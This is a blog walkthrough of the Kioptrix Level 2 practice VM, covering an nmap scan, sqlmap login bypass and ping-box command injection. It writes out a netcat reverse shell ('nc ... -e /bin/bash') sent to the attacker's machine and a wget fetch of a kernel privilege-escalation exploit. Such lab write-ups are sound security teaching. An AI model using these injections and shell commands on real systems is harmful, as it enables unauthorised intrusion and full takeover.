 ```yaml
---
layout:		post
title:  	"Kioptrix Level 2"
date: 		2018-02-26 14:00:00 +0800
summary:	Kioptrix Level 2 Penetration Test
categories:	kioptrix
---
```

Today we are going to solve Kioptrix Level 2. First we need to download the VM from the kioptrix website, add it to VMware and power it up!

We are met with this image:

![Kioptrix Login](/assets/kioptrix-start.png){:class="img-responsive"}

Let's get started. From my Kali machine I'm going to run an nmap scan, this will scan the entire network and we should be able to find the IP address of the Kioptrix machine. 

![nmap scan](/assets/nmap scan.PNG){:class="img-responsive"}

The nmap scan has brought back a number of open ports. The most interesting here would be the port 3306, the MySQL port. Let's look a bit further into that.

To do this we're going to use Metasploit. First we need to find out what version of MySQL is on the Kioptrix machine. We will do this with the following

{% highlight ruby %}
use auxiliary/scanner/mysql/mysql_version
#We then need to set a couple of parameters
set rhosts 192.168.1.101 #	This is the Kioptrix Machine IP 
						 #	that we found in the nmap scan
set rport 3306 #This is the open mysql port
run
{% endhighlight %}

![mysql version](/assets/mysql version result.PNG){:class="img-responsive"}

Well, that didn't really get us anywhere. At least we know it is mySQL. Let's launch a browser, go to the IP address and see what we are greeted with. 

![landing page](/assets/web landing page.PNG){:class="img-responsive"}

A login page. Let's use burpsuite, intercept the login and see what we can find out. 

![burpsuite](/assets/burpsuite.PNG){:class="img-responsive"}

Burpsuite has intercepted the login! Let's use this with sqlmap to try and get a workaround. 

In terminal we write:

{% highlight ruby %}
sqlmap -u "http://192.168.1.101/index.php" --data "uname=admin&psw=password&btnLogin=Login" --level=5 --risk=3
{% endhighlight %}

-u is for URL
--data this is where we put the data from our burpsuite intercept
--level is level of tests to perform from 1-5, may as well max it out
--risk is risk of tests 1-3, same again, max it out. As this isn't a real-world test we don't have to worry too much about the risk or level of attacks. 

![sqlmap complete](/assets/sqlmap-complete.PNG){:class="img-responsive"}

sqlmap has completed and found multiple injection points. Let's just use the username POST injection, we can do this in burpsuite by replacing the original code with the injection code. 

Now we are at this page:

![web after login](/assets/webpage after login.PNG){:class="img-responsive"}

What we need to now do is see if this textbox will run extra commands for us. Let's ping the Kioptrix machine and add {% highlight ruby %}; ls -l{% endhighlight %} and see if it brings back a list of files and owner of those files.

Sure enough, it does! Let's use another handy tool bundled in Kali, netcat

First we need to work out the location to put netcat on the Kioptrix machine. For this we use "; find / -name nc 2>/dev/null" into the webpage. This brings back "/usr/local/bin/nc". 

In Terminal, we get netcat listening with {% highlight ruby %}nc -lvp 1111{% endhighlight %}. I used port 1111, you can use whatever port you wish. 

Then back in the webapp textbox we need to input {% highlight ruby %}; /usr/local/bin/nc 192.168.1.5 -e '/bin/bash' 1111{% endhighlight %}



Now we've got a netcat connection going! Let's get some more information about the kernel. A quick {% highlight ruby %}uname -a{% endhighlight %} and we now know it's Linux Kernel 2.6.9-55 - Let's google an exploit

![uname](/assets/kernel.PNG){:class="img-responsive"}


http://www.exploit-db.com/exploits/9542/

This exploit seems like it's gonna work for us! It's been tested on a similar machine to this one. 

Let's save that to "/var/www/html", start Apache on our Kali machine and download the exploit through the session we created with netcat.

Okay, to download it let's first cd to /tmp. Now we can wget from our apache server, compile and execute!

![root](/assets/root.PNG){:class="img-responsive"}

Done! We are now root. I'll just change the password and login via the VM.

![have root](/assets/haveroot.PNG){:class="img-responsive"}


Thanks guys!
